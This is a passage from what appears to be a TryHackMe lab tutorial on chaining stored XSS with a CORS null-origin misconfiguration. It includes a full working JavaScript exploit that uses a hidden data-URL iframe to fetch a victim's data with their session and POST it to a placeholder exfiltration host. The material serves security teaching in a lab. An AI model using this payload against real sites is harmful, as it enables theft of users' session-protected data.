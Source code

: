 ![Null origin in the response](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/84dd592fc588146fe095dc5b5c3927c8.png)

To exploit the vulnerable code above, an attacker can create a malicious webpage with an iframe containing a javascript code that makes cross-origin requests to the target application.

**XSS + CORS**

We can use the vulnerable application at [http://corssop.thm/xss.php](http://corssop.thm/xss.php) to chain XSS with CORS. The application is designed to accept JavaScript or HTML code and then save it to the database. This means you can inject JavaScript or HTML code into the application, and once the victim visits the application, the payload will be executed.

![Sample XSS payload with a basic alert box](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/7014d79bc18957e4809e6dd67e23fd11.png)

Below is a sample exploit code designed to exfiltrate the data from null.php while using the victim's session. Make sure to change the EXFILTRATOR\_IP variable with your IP address.

```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
    <iframe id="exploitFrame" style="display:none;"></iframe>
    <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
  </div>

  <script>
    // JavaScript code for the exploit, adapted for inclusion in a data URL
    var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

    // Encode the exploit code for use in a data URL
    var encodedExploit = btoa(exploitCode);

    // Set the iframe's src to the data URL containing the exploit
    document.getElementById('exploitFrame').src = 'data:text/html;base64,' + encodedExploit;
  </script>
```
